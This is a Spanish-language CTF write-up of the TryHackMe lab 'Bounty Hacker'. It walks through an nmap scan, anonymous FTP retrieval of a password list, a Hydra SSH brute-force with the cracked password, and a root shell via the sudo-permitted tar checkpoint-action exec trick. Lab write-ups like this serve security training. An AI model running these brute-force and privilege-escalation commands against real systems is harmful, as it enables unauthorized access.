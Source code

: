 - **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 23/06/2025
- **Sistema Operativo:** Linux


## Descripción
"Bounty Hacker" es una máquina de nivel fácil alojada en TryHackMe, ideal para principiantes en el hacking ético y resolución de CTFs. Simula un entorno realista en el que se deben explotar servicios comunes con configuraciones débiles para lograr el acceso inicial, y luego realizar una escalada de privilegios sencilla para comprometer completamente el sistema.

La máquina representa un escenario típico donde un atacante aprovecha credenciales filtradas o débilmente protegidas para comprometer un sistema remoto.

Esta máquina es especialmente útil para:

> Practicar la enumeración de servicios expuestos y banners con herramientas como Nmap

> Conectarse a través de SSH usando claves privadas (id_rsa) encontradas durante la fase de reconocimiento

> Reforzar habilidades de análisis de archivos locales y búsqueda de flags

> Aplicar técnicas básicas de escalada de privilegios en sistemas Linux a partir de binarios con permisos inseguros o configuraciones débiles

## Enumeración

### Escaneo con Nmap

```bash
└─$ nmap --open -T5 -sS -n -Pn -sV 10.10.97.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-23 13:30 CEST
Nmap scan report for 10.10.97.62
Host is up (0.049s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```
## Intrusión
Encontraremos un servidor FTP al que podremos acceder con usuario anonymous, eso si, deberemos desactivar el modo pasivo. Una vez conectados haremos un get de los dos archivos del FTP.

```bash
└─$ ftp 10.10.97.62
Connected to 10.10.97.62.
220 (vsFTPd 3.0.3)
Name (10.10.97.62:yeray): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt 
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |**********************************************************************************************************************************************************************************************|   418        2.75 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (2.09 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |**********************************************************************************************************************************************************************************************|    68       28.01 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (1.35 KiB/s)
```

El contenido de los ficheros es el siguiente:
```bash
└─$ cat locks.txt                                      
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
```bash
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Si pasamos un hydra hacia lin con las contraseñas vistas podremos encontrar su contraseña
```bash
└─$ hydra -V -t 4 -l lin -P locks.txt ssh://10.10.97.62
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-23 14:02:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.97.62:22/
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "ReDdr4g0nSynd!cat3" - 2 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "Dr@gOn$yn9icat3" - 3 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3DDr46ONSYndIC@Te" - 4 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "ReddRA60N" - 5 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3dDrag0nSynd1c4te" - 6 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "dRa6oN5YNDiCATE" - 7 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "ReDDR4g0n5ynDIc4te" - 8 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3Dr4gOn2044" - 9 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "RedDr4gonSynd1cat3" - 10 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "R3dDRaG0Nsynd1c@T3" - 11 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.97.62 - login "lin" - pass "Synd1c4teDr@g0n" - 12 of 26 [child 3] (0/0)
[22][ssh] host: 10.10.97.62   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-23 14:02:46
```
```bash
└─$ ssh lin@10.10.97.62
The authenticity of host '10.10.97.62 (10.10.97.62)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.97.62' (ED25519) to the list of known hosts.
lin@10.10.97.62's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
##Escalada de privilegios
Si hacemos un sudo -l veremos la siguiente salida
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
En GTFOBins encontraremos la manera de poder escalar privilegios mediante este binario sobre el cual tenemos permiso de sudo.

```bash
lin@bountyhacker:~$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
/bin/tar: Removing leading `/' from member names
# whoami
root
```
Encontraremos el flag de root en /root/root.txt
